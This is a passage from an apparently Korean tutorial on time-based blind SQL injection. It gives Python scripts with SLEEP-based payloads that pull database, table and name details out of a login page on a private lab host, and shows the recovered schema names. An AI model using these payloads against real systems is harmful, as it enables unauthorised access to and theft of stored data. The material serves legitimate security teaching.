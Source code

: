 ```py
        REQUEST     = requests.get(url=URL)
        END_TIME    = time.time()
        if END_TIME - START_TIME > SLEEP_TIME: DATABASE_NAME_LENGTH = j
    for j in range(DATABASE_NAME_LENGTH):
        for s in string.printable.strip():
            QUERY   = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1),{j+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
            URL     = TARGET + f'?userid={QUERY}&password=123'
            START_TIME  = time.time()
            REQUEST     = requests.get(url=URL)
            END_TIME    = time.time()
            if END_TIME - START_TIME > SLEEP_TIME: DATABASE_NAME += s
    print(f'{DATABASE_NAME}')
```

결과는 다음과 같다.

	information_schema
	mysql
	test
	performance_schema

## **테이블 이름 확인**

참과 거짓의 결과 정보를 이용하여 테이블의 이름을 획득해보자.

먼저 COUNT를 이용하여 테이블의 수를 확인하자.

SELECT의 이중쿼리의 경우 출력결과가 1개로 나와야 하며 괄호를 이용하여 감싸준다.

URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

SLEEP을 이용하기 때문에 참이면 일정 시간동안 딜레이가 걸릴 것이다.

```py
QUERY       = requests.utils.quote(f'\' OR IF((SELECT COUNT(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\')={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

테이블 수만큼 반복하여 다음으로 테이블 이름의 문자열 길이를 알아내자.

```py
QUERY       = requests.utils.quote(f'\' OR IF(LENGTH((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\' LIMIT {i},1))={j},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

다시 SUBSTR로 문자열을 하나씩 확인한다.

```py
QUERY   = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\' LIMIT {i},1),{j+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

다음의 Full Code로 모든 테이블의 이름을 확인해보자.

```py
import requests
import string
import time

TARGET          = 'http://192.168.0.58/index.php'
SLEEP_TIME      = 0.5
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'\' OR IF((SELECT COUNT(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\')={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    START_TIME  = time.time()
    REQUEST     = requests.get(url=URL)
```
